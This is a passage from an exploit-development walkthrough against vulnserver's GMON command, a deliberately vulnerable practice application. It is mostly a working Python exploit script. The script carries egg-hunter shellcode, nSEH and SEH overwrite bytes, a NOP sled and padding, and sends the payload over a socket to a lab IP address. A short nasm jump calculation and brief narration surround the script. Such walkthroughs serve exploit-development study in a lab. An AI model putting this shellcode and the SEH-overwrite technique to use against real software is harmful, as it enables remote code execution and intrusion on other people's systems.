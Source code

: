 ```c
nasm > jmp short -0x48 //75 bytes
00000000  EBB6              jmp short 0xffffffb8
```

Placing the egg hunter inside our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat egghunter.py
import socket, sys

egg=b""
egg+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg+=b"\xff\xe7"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

payload=b""
# to overwrite buffer and EBP
# NOP sled
payload+=b"\x90"*(3549-70)
# egghunter
payload+=egg
payload+=b"A"*(3549-len(payload))

# to overwrite nSEH
payload+=nseh
# to overwrite SEH
payload+=seh
# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()


┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 egghunter.py
```

After running this, our program crashes and we will be drifted back 75 bytes from nSEH and we will be ahead of our egg hunter while executing it in runtime

<div align="center">
